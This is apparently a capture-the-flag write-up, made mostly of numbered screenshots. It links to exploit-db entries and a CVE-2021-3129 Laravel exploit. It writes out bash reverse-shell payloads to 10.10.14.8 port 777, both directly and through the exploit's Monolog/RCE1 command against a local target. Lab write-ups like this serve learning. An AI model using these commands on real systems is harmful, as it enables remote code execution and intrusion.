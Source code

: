 1.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e168f3ae-fdca-40c6-a64c-4a4cf64ed6c0)

2. 
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/fa4cf0d4-22af-4da5-8d5b-e704b4493a39)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/777e5607-7645-40ec-af91-af3bcfbdf6d0)

3.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e0940e2b-5f55-446b-9e1f-fd33608cff5e)

Content: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4200360b-ca33-4ddd-a525-af725b5feb74)

4. [tool](https://beautifier.io/)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/b6547f97-6b75-4ed9-b248-5c5649ded97c)

5.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e140aac3-a94e-4c08-aedf-07b1878bbc6c)

Website: <br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/aad03eb2-afb9-4da1-b1c1-38927f3db72c)

6.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/7705d94a-dcdc-435d-b000-f9e71f2edd48)

7.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/5a0c5c8b-05f8-418d-aa02-a5d0741415d0)

8.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ef79f371-d2cb-460d-a1be-e0135cd36629)

9. [link](https://www.exploit-db.com/exploits/50239)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/51d2fddb-24f3-4f1d-9e60-4ecb33f0292c)

10.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ffaba9bc-9330-4947-be15-c2d62cfc5b63)

11. [tool](https://www.revshells.com/)

Payload:<br>
bash -c 'bash -i >& /dev/tcp/10.10.14.8/777 0>&1'

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1abb246c-695f-4324-b53a-1fd335f7bc29)

Host:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e6895636-9c7c-4ab3-97f0-fb5a8f163d04)

12.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/ca080e46-3b76-45a0-96cd-91efe3cfd8af)

13.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d5dfe2a1-9c92-4927-bdad-1af36492b26a)

14.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/26a94265-8664-4cd8-884d-0ff53dcf36bf)

15.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bfcfc9e0-cbb4-4374-b3d5-c56dc6bf222b)

16.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/acbe2dc6-d6b2-47b1-88f7-3d1e8ed00b9e)

17.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d1579a62-ac52-42bf-b413-1cb73d7e38d8)

18.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/a4c6572e-1d54-4033-a86b-d97ca820ff90)

19.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bc26e6f9-bade-4006-918c-6010d8cb20d3)

Website:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/73406f49-fdfa-46c5-8681-140ea29aa6eb)

20.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/d82a0488-eda1-4879-aec6-06346361cd78)

21.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/701ea246-aff2-4af8-9734-b51b0a6458c1)

22. [link](https://www.exploit-db.com/exploits/49424)
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/bfc8880f-6458-47c3-a890-d93e0c7157ce)

23. [payload](https://github.com/nth347/CVE-2021-3129_exploit/blob/master/exploit.py)

Run:<br>
`./exploit.py http://localhost:8000 Monolog/RCE1 id`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/4b9b581b-3984-499a-994c-5469a70d9f8c)

24.

Run:<br>
`./exploit.py http://localhost:8000 Monolog/RCE1 'bash -c "bash -i >& /dev/tcp/10.10.14.8/777 0>&1"'`

![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/1e29bf63-4555-494b-8b94-24a7b2563819)

Host:<br>
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/386a20da-85df-4c58-910c-52a520343750)

25.
![image](https://github.com/LawsonSchwantz/Writeups/assets/74954683/e4f06518-68ce-405f-ba5f-94b54c7c8b57)





